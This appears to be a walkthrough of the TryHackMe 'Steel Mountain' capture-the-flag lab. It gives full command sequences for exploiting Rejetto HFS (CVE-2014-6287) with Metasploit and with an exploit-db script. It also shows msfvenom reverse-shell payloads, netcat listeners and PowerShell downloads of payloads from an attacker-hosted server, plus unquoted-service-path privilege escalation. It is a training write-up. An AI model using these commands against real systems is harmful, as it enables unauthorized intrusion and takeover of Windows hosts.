 ![Steel Mountain Logo](https://tryhackme-images.s3.amazonaws.com/room-icons/c9030a2b60bb7d1cf4fcb6e5032526d3.jpeg)
```
Steel Mountain
Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.
```

```
Task #1 : Introduction
```
Deploy the machine.

1. Who is the employee of the month? => Bill Harper // As soon as we load the web-page there is an image opening the image in different tab shows file name to be BillHarper.png

```
Task #2 : Initial Access
```
Now you have deployed the machine, lets get an initial shell!

1. Scan the machine with nmap. What is the other port running a web server on? => 8080 //nmap -sC -sT 10.10.253.201 -oN nmap/initial.txt
2. Take a look at the other web server. What file server is running? => Rejetto Http File Server // Open the port 8080 and notice the file server link.
3. What is the CVE number to exploit this file server? => 2014-6287 // Quick googling of HFS 2.3 leads to CVE
4. Use Metasploit to get an initial shell. What is the user flag? => ********************************
	1. msfconsole
	2. search cve-2014-6287
	3. use windows/http/rejetto_hfs_exec
	4. set RHOSTS $IP
	5. set RPORT 8080
	6. Show payloads
	7. set payload windows/meterpreter/reverse_tcp
	8. set RHOST // Your Local IP address
	9. Run the exploit
	9. We have a meterpreter shell
	10. once meterpreter shell is up > search -f user.txt
	11. cd C:\Users\bill\Desktop // cat user.txt 

```
Task #3 : Privilege Esclation
```
Now that you have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root!


1. To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

	1. wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
	2. mv file to /opt/Powersploit/Privesc
	3. now from meterpreter session upload the file.
	5. now load powershell in meterpreter
	6. now enter powershell_shell this will load run the powershell in meterpreter session
	7. run the uploaded file . .\Powerup.ps1
	8. now run the command Invoke-AllChecks to perform PrivEsc
2. Take close attention to the CanRestart option that is set to true. What is the name of the unquoted service path service name? => AdvancedSystemCareService9
	1. Check the list displayed after Invoke-AllChecks command
	2. One of the service name AdvancedSystemCareService9 has canRestart premission set to True.
3. The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!
Use msfvenom to generate a reverse shell as an Windows executable.
	1. msfvenom -p windows/shell_reverse_tcp LHOST=<Local IP-ADDRESS> LPORT=4449 -e x86/shikata_ga_nai -f exe -o ASCService.exe
	2. upload the file using upload module in meterpreter
	3. in meterpreter type shell and press enter
	4. run the command to stop the AdvancedSystemCareService9 service sc stop AdvancedSystemCareService9
	5. COPY ASCService.exe to C:\Program Files (x86)\IObit\Advanced SystemCare
4. 	What is the root flag? => ********************************
	1. sc start AdvancedSystemCareService9
	2. crt c
	3. background the meterpreter session
	4. sessions command will show you the new session created
	5. sessions -i 5 and enter
	6. cd C://Administrator/Desktop
	7. read root.txt using type command

```
Task #4 Access and Escalation Without Metasploit
```
Now let's complete the room without the use of Metasploit.
For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate to

1. To begin we shall be using the same CVE. However, this time let's use this exploit.
*Note that you will need to have a web server and a netcat listener active at the same time in order for this to work!*
To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from GitHub!
You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!
	1. Download the exploit from https://www.exploit-db.com/exploits/39161 or use searchsploit
	2. Download the netcat binary from https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe and rename it to nc.exe
	3. Now open the exploit file in text editor and change the local IP address to the one you are working on and port of your choice.
	4. Now in termail run nc -lvnp on port you entered in the exploit file
	5. Run a pythom -m SimpleHTTPServer 80 from the directory you have nc.exe in
	6. now run the exploit using python exploit.py <target_ip> <port>
	7. Notice the python web server getting populated and the netcat binary is uploaded successfully to the target server
	8. Now re run the exploit and notice you have a shell.
2. Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c.
Once we run winPeas, we see that it points us towards unquoted paths. We can see that it provides us with the name of the service it is also running. 
What powershell -c command could we run to manually find out the service name?
*Format is "powershell -c "command here"* => Get-Service
	1. In the shell run powershell -c Get-Service
	2. to upload winPEAS to toarget download the winPEAS.exe file and place it in same directory where pytom server is running
	3. Now from target shell execute powershell -c wget "http://<IP-Address>:80/winPEASx86.exe" -outfile "winPEASx64.exe"
	4. winPEAS is uploaded successfully
3. Now let's escalate to Administrator with our new found knowledge.
Generate your payload using msfvenom and pull it to the system using powershell.
Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands.
First we need to stop the service which we can do like so;
sc stop AdvancedSystemCareService9
Shortly followed by;
sc start AdvancedSystemCareService9
Once this command runs, you will see you gain a shell as Administrator on our listener!
	1. Just like earlier create a payload using msfvenom and name it ASCService.exe
	2. Copy the payload in the dirctory used as python HTTPServer
	3. Now stop the AdvancedSystemCareService9 using sc stop AdvancedSystemCareService9
	4. Upload the ASCService.exe in the same directory where normal ASCService.exe is placed
	5. use the command to do so powershell -c wget "http://<IP-Address>:80/ASCService.exe" -outfile "ASCService.exe"
	6. In a terminal run nc -lvnp <given_port> and press enter
	7. Now run sc start AdvancedSystemCareService9
	8. Check the new netcat connection and notice you a root shell.
